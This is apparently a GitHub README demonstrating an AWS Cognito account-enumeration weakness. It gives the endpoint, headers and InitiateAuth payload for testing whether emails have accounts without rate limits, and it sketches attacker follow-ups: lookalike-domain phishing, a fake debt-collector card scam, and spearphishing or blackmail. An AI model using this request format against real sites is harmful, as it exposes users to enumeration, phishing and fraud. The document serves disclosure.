 ![image](https://github.com/JWally/ezp0wn/assets/2482935/9e6cdfba-4115-4a01-a0b0-cf9789681c87)


# AWS Cognito Account Enumeration Demonstration

This Node.js script demonstrates an account enumeration vulnerability with AWS Cognito.

## Summary

If your site uses AWS Cognito and your `clientId` is exposed:

I can run a script to see who has accounts on your site - without rate limits.

## Why Is This Bad?

I'm sure there are more, but here are two ways a threat actor could exploit this:

### Depth

With a list of emails, I can quickly see who is associated with your service. 
1. I can buy a domain that looks like yours
2. Create a login page that looks like yours
3. send emails tricking people to give me their credentials to your site.
  
If you're not using 2fa, I've taken over their account.

Easier, I can pretend to be a debt collector going after a small debt that's about to incur massive fees and penalties - just to harvest credit card numbers.

### Breadth

With a collection of `clientId`s, a threat actor could quickly see what websites an email address is associated with. 

With this, I can easily spearphishing campaign, or blackmail campaign depending on what I discover.

## How Does It Work?

Make as many rest requests as you want, as quick as you want with the following format:

### URL
`"https://cognito-idp.us-east-2.amazonaws.com/`

n.b. this might have to change depending on how the site set everything up

### Headers
```json
{
    "X-Amz-Target": "AWSCognitoIdentityProviderService.InitiateAuth",
    "X-Amz-User-Agent": "aws-amplify/5.0.4 js",
    "Content-Type": "application/x-amz-json-1.1"
}
```

### Payload
```json
{
  "AuthFlow": "USER_SRP_AUTH",
  "ClientId": "5b6a*****umldkr",
  "AuthParameters": {
    "USERNAME": "hi@mom.com",
    "SRP_A": "66463ad244621e5365841583e54891c292b3be74a00bdd034c2d555cf4fe1faaa"
  },
  "ClientMetadata": {}
}
```
